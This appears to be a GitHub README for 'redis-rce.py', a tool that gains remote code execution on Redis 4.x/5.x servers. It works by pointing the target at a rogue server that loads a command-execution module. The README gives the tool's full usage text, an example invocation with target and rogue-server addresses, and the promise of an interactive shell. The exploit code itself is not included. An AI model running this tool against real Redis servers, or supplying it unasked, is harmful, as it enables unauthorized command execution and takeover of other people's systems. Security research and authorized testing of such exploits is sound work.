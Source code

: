# Redis RCE

A exploit for Redis 4.x/5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

This repo is a modified version of <https://github.com/n0b0dyCN/redis-rogue-server> .
## Usage:

Compile module.so from <https://github.com/peter-hoch-organisation/RedisModules-ExecuteCommand>.


```
usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-a AUTH] [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default module.so
  -a AUTH, --auth AUTH  redis password
  -v, --verbose         show more info
```

## example:
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f module.so
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190708220258.png)

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
